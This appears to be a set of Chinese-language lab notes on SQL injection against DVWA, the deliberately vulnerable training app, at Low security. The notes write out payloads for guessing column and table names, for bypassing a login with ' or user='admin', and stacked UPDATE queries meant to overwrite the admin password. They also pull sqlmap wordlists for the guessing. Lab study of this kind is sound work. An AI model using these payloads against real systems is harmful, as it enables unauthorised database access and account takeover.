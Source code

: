 ## 测试 dvwa Low 安全级别（无 MySQL 的 root 权限）

* 猜列名
``` 
select * from table_name where uid='   <注入查询语句>   '
select * from table_name where uid='  ' and column is null--+   '
' and admin is null-- 

# 可以使用字典进行猜解
root@kali:~# find / -name *column*.txt
/usr/local/src/w3af/w3af/plugins/attack/db/sqlmap/txt/common-columns.txt
/usr/share/golismero/tools/sqlmap/txt/common-columns.txt
/usr/share/qgis/python/plugins/processing/algs/grass/description/v.buffer.column.txt
/usr/share/qgis/python/plugins/processing/algs/grass7/description/v.buffer.column.txt
/usr/share/sqlmap/txt/common-columns.txt

# 在sql查询是，井号（#）有特殊含义，代表临时查询，可以删掉
root@kali:~# cat /usr/share/sqlmap/txt/common-columns.txt | grep -v ^# > column.txt

# 使用 BurpSuite

```

* 猜当前表表名
``` 
root@kali:~# find / -name *table*.txt
root@kali:~# cp /usr/share/golismero/tools/sqlmap/txt/common-tables.txt .
root@kali:~# cat common-tables.txt | grep -v ^# > table.txt

```

* 猜库里其他表
``` 
' and (select count(*) from a)>0--+

```

* 列表对应关系
``` 
’ and table.user is null–+
```

* 猜字段内容
``` 
' or user='admin
' or user like '%a% 
# %是通配符

```

* 猜账号对应密码
``` 
' or user='admin' and password='5f4dcc3b5aa765d61d8327deb882cf99

```
## 测试 dvwa Low 安全级别：当数据库可写
``` 
修改管理员账号 ‘; update users set user=’yuanfh’ where user=’admim；

无法成功执行是因为客户端问题
客户端不支持两条指令一起查询，但是在 MySQL 命令行下是支持的

修改管理员密码 ‘; update users set password=’5f4dcc3b5aa765d61d8327deb882cf99’ where user=’admim；

无法成功执行是因为客户端问题
客户端不支持两条指令一起查询，但是在 MySQL 命令行下是支持的

```